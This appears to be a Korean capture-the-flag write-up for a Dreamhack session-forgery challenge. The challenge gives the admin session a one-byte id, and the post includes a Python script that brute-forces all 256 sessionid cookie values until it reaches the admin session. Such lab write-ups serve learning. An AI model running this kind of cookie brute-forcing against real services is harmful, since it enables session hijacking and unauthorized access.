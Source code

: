 ```yaml
---
title: "[wargame.kr] session id 쿠키 값 위조 문제"
excerpt: "session 위조 문제 풀이."
categories:
    - dreamhack
tags:
    - wargame
    - session
last_modified_at: 2023-08-28T10:13:00-05:00
---
```


[문제](https://dreamhack.io/wargame/challenges/266)

## Session 값 위조
- session 값을 admin 아이디가 저장된 세션 값으로 바꿔주면 된다.

### 코드 분석
- admin 계정의 session id 값의 범위는 00 ~ FF 인 것을 확인할 수 있다.

```python
session_storage[os.urandom(1).hex()] = 'admin'
```

### 공격 Payload
- 만들어 질 수 있는 모든 session id 값을 쿠키에 넣어주면 된다.
- 00 ~ FF 를 모두 sessionid 쿠키 값에 넣어주면서 admin 에 해당하는 session id 값을 찾아주면 된다.

```python
import requests

URL = "공격 주소"
COOKIE = {"sessionid":""}

def request()->str:
    res = requests.get(url=URL,cookies=COOKIE)
    return res.text

def find_sessionid():
    for i in range(0,256):
        # print(str(hex(i)).replace('0x','').zfill(2))
        COOKIE["sessionid"]=str(hex(i)).replace('0x','').zfill(2)
        t = request()
        print(i)
        if 'admin' in t.lower():
            print(str(hex(i)).replace('0x','').zfill(2))
            break
    return

def main():
    # request()
    find_sessionid()
    return

if __name__ == "__main__":
    main()

```